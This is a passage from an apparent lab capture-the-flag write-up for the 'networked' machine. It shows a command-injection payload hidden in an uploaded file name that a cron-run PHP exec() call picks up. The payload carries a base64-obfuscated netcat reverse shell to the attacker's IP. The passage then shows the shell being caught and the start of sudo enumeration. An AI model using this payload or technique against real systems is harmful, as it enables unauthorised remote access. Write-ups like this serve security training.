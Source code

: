 

When the script runs, it will loop over the files, and when it runs over
mine, it will set `$value` to
`a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b`
and run:



    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");



Which means it will run:



    exec("nohup /bin/rm -f /var/www.md/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b > /dev/null 2>&1 &");



Once the clock hits a minute divisible by three, I get a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.146.
    Ncat: Connection from 10.10.10.146:57712.
    id
    uid=1000(guly) gid=1000(guly) groups=1000(guly)



I'll also make sure to clean up my file:



    bash-4.2$ rm a*



As guly, I can grab `user.txt`:



    [guly@networked ~]$ cat user.txt 
    526cfc23...



## Privesc to root

### Enumeration

`sudo -l` (one of the first things I check on any Linux hosts) shows me
that guly can run a shell script as root without a password:



    [guly@networked ~]$ sudo -l
    sudo -l
    Matching Defaults entries for guly on networked:
        !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
        env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
        env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
        env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
        env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
        env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
        secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
